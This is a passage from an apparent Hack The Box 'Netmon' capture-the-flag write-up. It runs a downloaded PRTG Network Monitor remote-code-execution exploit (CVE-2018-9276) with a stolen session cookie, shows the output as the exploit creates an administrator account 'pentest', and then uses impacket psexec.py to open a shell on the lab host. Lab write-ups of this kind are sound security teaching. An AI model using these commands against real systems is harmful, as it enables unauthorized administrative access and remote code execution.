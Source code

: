 ```
EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
```

Since we logged in to PRTG Network Manager, we can use the developer console to see what cookies we have; which is 
`OCTOPUS`, and use that to use the exploit.

```
$ wget https://www.exploit-db.com/download/46527
$ sed -i -e 's/\r$//' 46527
$ ./46527 -u http://10.10.10.152 -c "OCTOPUS1813713946=ezk4RkMxM0M4LTkxMzYtNEVDOS1CODgwLTc4OUY5QjJERjJFN30%3D; _gat=1"

[+]#########################################################################[+]
[*] Authenticated PRTG Network Monitor remote code execution                [*]
[+]#########################################################################[+]
[*] Date: 11/03/2019                                                        [*]
[+]#########################################################################[+]
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*]
[+]#########################################################################[+]
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*]
[*] Version: 18.2.38                                                        [*]
[*] CVE: CVE-2018-9276                                                      [*]
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*]
[+]#########################################################################[+]

# login to the app, default creds are prtgadmin/prtgadmin. once authenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'

[+]#########################################################################[+]

[*] file created
[*] sending notification wait....

[*] adding a new user 'pentest' with password 'P3nT3st'
[*] sending notification wait....

[*] adding a user pentest to the administrators group
[*] sending notification wait....

[*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

This created a new user that had administrative privileges; `pentest` with the password `P3nT3st!`. Using `psexec.py` 
from `impacket` we can get a shell and login as `pentest` to get our root flag.

```
$ /usr/share/doc/python-impacket/examples/psexec.py pentest:'P3nT3st!'@10.10.10.152

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file ySyxZytT.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service Sjns on 10.10.10.152.....
[*] Starting service Sjns.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

```

[PRTG Mainscreen]:      /images/posts/2019-07-01-htb-netmon/PRTG%20Mainscreen.png
[PRTG Panel]:           /images/posts/2019-07-01-htb-netmon/PRTG%20Panel.png
[Github]:               https://github.com/M4LV0/PRTG-Network-Monitor-RCE
[Exploit-DB]:           https://www.exploit-db.com/exploits/46527